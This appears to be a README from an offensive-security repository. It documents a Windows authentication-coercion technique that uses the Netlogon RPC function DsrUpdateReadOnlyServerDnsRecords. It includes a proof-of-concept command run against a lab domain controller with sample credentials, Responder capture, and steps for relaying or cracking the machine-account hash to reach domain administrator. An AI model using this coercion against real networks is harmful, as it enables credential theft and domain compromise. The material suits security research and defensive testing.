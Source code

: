 # MS-NRPC - Remote call to DsrUpdateReadOnlyServerDnsRecords (opnum 48)

## Summary

+ **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\NETLOGON`

+ **Function name**: [`DsrUpdateReadOnlyServerDnsRecords`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/e83df161-5c13-4520-ae5a-79218ed0bb19)

+ **Function operation number**: `48`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`DsrUpdateReadOnlyServerDnsRecords`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/e83df161-5c13-4520-ae5a-79218ed0bb19) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
DsrUpdateReadOnlyServerDnsRecords('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS DsrUpdateReadOnlyServerDnsRecords(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [in, string] wchar_t* ComputerName,
   [in] PNETLOGON_AUTHENTICATOR Authenticator,
   [out] PNETLOGON_AUTHENTICATOR ReturnAuthenticator,
   [in, unique, string] wchar_t* SiteName,
   [in] ULONG DnsTtl,
   [in, out] PNL_DNS_NAME_INFO_ARRAY DnsNames
 );
```

## References

+ Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

+ Documentation of function `DsrUpdateReadOnlyServerDnsRecords`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/e83df161-5c13-4520-ae5a-79218ed0bb19